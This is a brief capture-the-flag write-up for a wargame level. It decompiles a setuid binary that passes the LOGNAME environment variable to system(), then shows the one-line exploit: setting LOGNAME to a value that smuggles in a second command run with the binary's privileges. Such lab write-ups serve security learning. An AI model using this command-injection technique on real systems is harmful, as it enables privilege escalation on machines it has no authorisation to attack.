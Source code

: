 There is a program with the setuid of flag07:

-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

There is no source code at the home directorie so i used Gihdra through https://dogbolt.org/ to get a disassambled version of the binary :

int main(int argc,char **argv,char **envp)
{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;

  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");                   <-- It get the Environement variable value of LOGNAME
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);   <-- It use it to make a string "/bin/echo $LOGNAME"
  iVar2 = system(local_1c);                     <-- It execute the string with a syscall
  return iVar2;
}

I only need to modify the LOGNAME value :
    export LOGNAME="; getflag > /tmp/flag"

The flag is at /tmp/flag